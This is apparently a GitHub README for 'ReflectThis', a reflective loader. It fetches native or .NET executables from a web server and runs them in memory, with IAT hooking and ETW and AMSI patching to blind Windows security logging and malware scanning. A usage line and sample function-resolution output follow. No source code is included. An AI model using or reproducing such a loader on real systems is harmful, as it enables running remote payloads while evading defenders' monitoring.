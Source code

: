 # ReflectThis
- Supports Native and .NET PE files
- Load Native or .NET PE file hosted on web server
- IAT Hook to common commandline functions to fix arguments
- Set proper permissions on loaded sections
- ETW and AMSI patching

## Usage
```ps
> .\ReflectThis.exe [url] [args...]
resolving function GetCommandLineA -> 5c18c0
resolving function GetCurrentProcess -> 77be3550
resolving function GetProcAddress -> 77bdfb80
resolving function FreeLibrary -> 77be11b0
resolving function VirtualQuery -> 77bdfba0
resolving function GetProcessHeap -> 77bdf9b0
resolving function HeapFree -> 77bde590
resolving function HeapAlloc -> 77de5e70
resolving function GetLastError -> 77bde640
resolving function GetModuleHandleW -> 77be1520
resolving function IsProcessorFeaturePresent -> 77be1240
resolving function GetStartupInfoW -> 77be1c20
resolving function SetUnhandledExceptionFilter -> 77be1df0
resolving function UnhandledExceptionFilter -> 77bf62e0
...SNIP...
```
